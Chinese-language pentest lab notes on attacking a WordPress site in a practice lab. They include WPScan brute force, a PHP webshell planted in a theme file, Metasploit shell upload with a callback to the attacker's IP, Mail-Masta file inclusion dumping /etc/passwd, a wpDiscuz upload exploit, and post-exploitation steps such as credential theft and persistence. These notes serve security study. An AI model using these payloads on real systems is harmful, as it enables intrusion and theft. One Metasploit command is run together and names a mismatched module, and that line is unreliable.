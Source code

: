 # Wordpress

## <mark style="color:red;">**1. 發現點**</mark>

#### 1️⃣ 瀏覽 `robots.txt`

```bash
curl -s http://blog.inlanefreight.local/robots.txt
```

* 有時會列出隱藏路徑

#### 2️⃣ 確認 CMS

```bash
curl -s http://blog.inlanefreight.local | grep WordPress
```

* 出現 WordPress 5.8 即可確認

#### 3️⃣ 確認主題 & 插件

```bash
curl -s http://blog.inlanefreight.local/ | grep themes
curl -s http://blog.inlanefreight.local/ | grep plugins
curl -s http://blog.inlanefreight.local/?p=1 | grep plugins
```

> 透過路徑 `/wp-content/themes/` 同 `/wp-content/plugins/` 可以知道網站用咩主題/插件。

## <mark style="color:red;">**2. 測試Payload**</mark>

#### 1️⃣ 使用 WPScan

```bash
sudo gem install wpscan
sudo wpscan --url http://blog.inlanefreight.local --enumerate --api-token <你的token>
```

* 列出用戶、主題、插件、版本、已知漏洞

#### 2️⃣ 用戶爆破（XML-RPC）

```bash
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

> 如果爆破成功例如：

```
Username: john
Password: firebird1
```

即可以用 admin 身份登入 `http://blog.inlanefreight.local/wp-login.php`。

## <mark style="color:red;">3.   後台取得 RCE</mark>

#### 方法 A：修改主題檔案取得 WebShell

1. 後台登入之後，去

```
外觀 > 主題檔案編輯器 (Appearance > Theme Editor)
```

2. 選一個主題（例如 `twentynineteen`），然後選 `404.php`
3. 在底部加入：

```php
<?php system($_GET[0]); ?>
```

4. 儲存並透過 cURL 測試：

```bash
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
```

* 出現 `uid=33(www-data)` 就成功！

***

#### 方法 B：Metasploit 模組自動上傳 shell

```bash
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.local
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost <你的IP>
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set vhost blog.inlanefreight.local
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit
```

> 成功就會開一個 meterpreter session。

<details>

<summary>Complete Version</summary>

#### PHP 外掛 <a href="#php-plugin" id="php-plugin"></a>

可能可以將.php 檔案上傳為外掛。使用以下範例建立你的 php 後門：

![](https://hacktricks.boitatech.com.br/~gitbook/image?url=https%3A%2F%2F1116388331-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-legacy-files%2Fo%2Fassets%252F-Mks5MA8MikNk7jIq3z3%252Fsync%252Fd16665578087eeeeabbc220c92bac5d7569bc787.png%3Fgeneration%3D1633028912917435%26alt%3Dmedia\&width=768\&dpr=4\&quality=100\&sign=630366d3\&sv=2)

然後新增一個插件：

![](https://hacktricks.boitatech.com.br/~gitbook/image?url=https%3A%2F%2F1116388331-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-legacy-files%2Fo%2Fassets%252F-Mks5MA8MikNk7jIq3z3%252Fsync%252F8668dea5b059b1fc486cb53cde1d8d65b849a027.png%3Fgeneration%3D1633028912328355%26alt%3Dmedia\&width=768\&dpr=4\&quality=100\&sign=15e35091\&sv=2)

上傳外掛程式並按立即安裝：

![](https://hacktricks.boitatech.com.br/~gitbook/image?url=https%3A%2F%2F1116388331-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-legacy-files%2Fo%2Fassets%252F-Mks5MA8MikNk7jIq3z3%252Fsync%252F12c26ff94b8d74da8199129602062d6b390dfae5.png%3Fgeneration%3D1633028913022059%26alt%3Dmedia\&width=768\&dpr=4\&quality=100\&sign=fbd18a8a\&sv=2)

點選“處理”：

![](https://hacktricks.boitatech.com.br/~gitbook/image?url=https%3A%2F%2F1116388331-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-legacy-files%2Fo%2Fassets%252F-Mks5MA8MikNk7jIq3z3%252Fsync%252Fa18257e302f3bae245bef01690197799da17fdb7.png%3Fgeneration%3D1633028912574951%26alt%3Dmedia\&width=768\&dpr=4\&quality=100\&sign=a7739fde\&sv=2)

顯然這可能不會產生任何效果，但如果你進入媒體，你會看到你的 shell 已上傳：

![](https://hacktricks.boitatech.com.br/~gitbook/image?url=https%3A%2F%2F1116388331-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-legacy-files%2Fo%2Fassets%252F-Mks5MA8MikNk7jIq3z3%252Fsync%252F5d706c741824ed569e0401c561099cb720ae1a49.png%3Fgeneration%3D1633028912942366%26alt%3Dmedia\&width=768\&dpr=4\&quality=100\&sign=44ea2982\&sv=2)

存取它，你會看到執行反向shell的URL：

![](https://hacktricks.boitatech.com.br/~gitbook/image?url=https%3A%2F%2F1116388331-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-legacy-files%2Fo%2Fassets%252F-Mks5MA8MikNk7jIq3z3%252Fsync%252F56a77483c7b7c56d4c76d92502ca78fb0a77667d.png%3Fgeneration%3D1633028913071184%26alt%3Dmedia\&width=768\&dpr=4\&quality=100\&sign=7425673b\&sv=2)

#### 上傳並啟用惡意插件 <a href="#uploading-and-activating-malicious-plugin" id="uploading-and-activating-malicious-plugin"></a>

**（此部分複製自** [**https://www.hackingarticles.in/wordpress-reverse-shell/**](https://www.hackingarticles.in/wordpress-reverse-shell/)**）**

有時候登入使用者沒有可寫的權限來對WordPress主題進行修改，所以我們選擇「注入WP pulgin惡意程式碼」作為取得web shell的替代策略。

因此，一旦您可以存取 WordPress 儀表板，您就可以嘗試安裝惡意外掛程式。這裡我已經從exploit db下載了有漏洞的插件。

點擊[**此處**](https://www.exploit-db.com/exploits/36374) _\*\*_&#x4E0B;載插件進行練習。

![](https://hacktricks.boitatech.com.br/~gitbook/image?url=https%3A%2F%2Fi1.wp.com%2F1.bp.blogspot.com%2F-Y_Aw7zSFJZs%2FXY9pymSjdvI%2FAAAAAAAAguY%2FFGyGEzlx9VIqNYyyra9r55IklNmwXwMQwCLcBGAsYHQ%2Fs1600%2F10.png%3Fw%3D687%26ssl%3D1\&width=768\&dpr=4\&quality=100\&sign=ea5b39e0\&sv=2)

由於我們有插件的 zip 文件，現在是時候上傳插件了。

儀表板 > 插件 > 上傳插件

![](https://hacktricks.boitatech.com.br/~gitbook/image?url=https%3A%2F%2Fi0.wp.com%2F1.bp.blogspot.com%2F-FLhqB0I32Mg%2FXY9pyrlKWAI%2FAAAAAAAAguU%2FtofpIetTCv4Mho5y5D_sDuuokC7mDmKowCLcBGAsYHQ%2Fs1600%2F11.png%3Fw%3D687%26ssl%3D1\&width=768\&dpr=4\&quality=100\&sign=810c6551\&sv=2)

瀏覽下載的 zip 文件，如圖所示。

![](https://hacktricks.boitatech.com.br/~gitbook/image?url=https%3A%2F%2Fi2.wp.com%2F1.bp.blogspot.com%2F-KMumiwE2Tf0%2FXY9pzznEI4I%2FAAAAAAAAguk%2FBavBJP6plFo8NIpa38oWEKfx0jkOXv3HgCLcBGAsYHQ%2Fs1600%2F12.png%3Fw%3D687%26ssl%3D1\&width=768\&dpr=4\&quality=100\&sign=adaf0d97\&sv=2)

一旦包成功安裝，我們需要啟動插件。

![](https://hacktricks.boitatech.com.br/~gitbook/image?url=https%3A%2F%2Fi2.wp.com%2F1.bp.blogspot.com%2F-YrFg94Y2EZs%2FXY9pzydfLDI%2FAAAAAAAAgug%2FAjZyQ6Na8kUUmquJXwoapxcmr2-8nAMwQCLcBGAsYHQ%2Fs1600%2F13.png%3Fw%3D687%26ssl%3D1\&width=768\&dpr=4\&quality=100\&sign=8ffcb257\&sv=2)

當一切設定好之後就可以進行利用了。由於我們安裝了名為“reflex-gallery”的易受攻擊的插件，因此它很容易被利用。

您將在 Metasploit 框架內利用此漏洞，從而載入以下模組並執行以下命令：

1234

使用exploit/unix/webapp/wp\_slideshowgallery\_uploadset rhosts 192.168.1.101set targeturi /wordpressexploit

執行上述命令後，您將擁有 meterpreter 會話。如本文所述，有許多方法可以利用 WordPress 平台網站。

![](https://hacktricks.boitatech.com.br/~gitbook/image?url=https%3A%2F%2Fi1.wp.com%2F1.bp.blogspot.com%2F-s6Yblqj-zQ8%2FXY9pz0qYWAI%2FAAAAAAAAguo%2FWXgEBKIB64Ian_RQWaltbEtdzCNpexKOwCLcBGAsYHQ%2Fs1600%2F14.png%3Fw%3D687%26ssl%3D1\&width=768\&dpr=4\&quality=100\&sign=c08003dc\&sv=2)

</details>



## <mark style="color:red;">4. 已知漏洞利用</mark>



#### 1️⃣ Mail-Masta 插件 RFI（Remote File Inclusion）

* 測試：

```bash
curl -s "http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd"
```

* 如果成功顯示 `/etc/passwd`，代表存在 RFI，進一步可利用上傳本地 payload。

***

#### 2️⃣ wpDiscuz 文件上傳繞過（版本 <= 7.0.4）

* 利用腳本上傳 PHP webshell：

```bash
python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1
```

* 用 cURL 測試：

```bash
curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/<shell>.php?cmd=id
```

> 出現 `uid=33(www-data)`，即 RCE 成功。

## <mark style="color:red;">5.利用已知漏洞</mark>

**易受攻擊的插件 - mail-masta**

\


```php
<?php 

include($_GET['pl']);
global $wpdb;

$camp_id=$_POST['camp_id'];
$masta_reports = $wpdb->prefix . "masta_reports";
$count=$wpdb->get_results("SELECT count(*) co from  $masta_reports where camp_id=$camp_id and status=1");

echo $count[0]->co;

?>
```

我們可以看到， `pl`參數允許我們包含一個文件，而無需任何類型的輸入驗證或清理。利用這個，我們可以在網頁伺服器上包含任意檔案。讓我們利用這一點來使用`cURL`檢索`/etc/passwd`檔案的內容。

\


```shell-session
PikachuN@htb[/htb]$ curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false
```

**易受攻擊的外掛 - wpDiscuz**

\
[wpDiscuz](https://wpdiscuz.com/)是一個 WordPress 插件，用於增強頁面貼文的評論功能。在撰寫本文時，該插件的[下載量已超過 160 萬次](https://wordpress.org/plugins/wpdiscuz/advanced/)，活躍安裝量超過 90,000 次，這使它成為我們很有可能在評估期間遇到的非常受歡迎的插件。根據版本號（7.0.4），此[漏洞](https://www.exploit-db.com/exploits/49967)很有可能讓我們獲得命令執行。該漏洞的關鍵是文件上傳繞過。 wpDiscuz 僅允許圖像附件。檔案 mime 類型功能可能會被繞過，從而允許未經身份驗證的攻擊者上傳惡意 PHP 檔案並獲得遠端程式碼執行。關於 MIME 類型偵測功能繞過的更多資訊可以[在這裡](https://www.wordfence.com/blog/2020/07/critical-arbitrary-file-upload-vulnerability-patched-in-wpdiscuz-plugin/)找到。

\


```shell-session
python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1
```

\
所寫的漏洞可能會失敗，但是我們可以使用`cURL`使用上傳的 Web shell 執行命令。我們只需要在`.php`副檔名後面附加`?cmd=`即可執行我們可以在漏洞腳本中看到的指令。

\


```shell-session
curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id

GIF689a;

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## <mark style="color:red;">6. 連鎖漏洞</mark>

一旦取得 webshell / meterpreter session，可以進一步：

| 攻擊動作  | 方法                                             |
| ----- | ---------------------------------------------- |
| 提權    | `sudo -l` 檢查 sudo 權限、或找可寫 cron 任務              |
| 密碼收集  | 檢查 `wp-config.php` 抓取資料庫帳密                     |
| 內網掃描  | `netstat -anp` 或 `nmap -sP 內部段`                |
| 橫向移動  | 試用相同帳密登入其他服務                                   |
| 持久化後門 | 在 `/wp-content/uploads` 或 `/themes` 留下反向 shell |
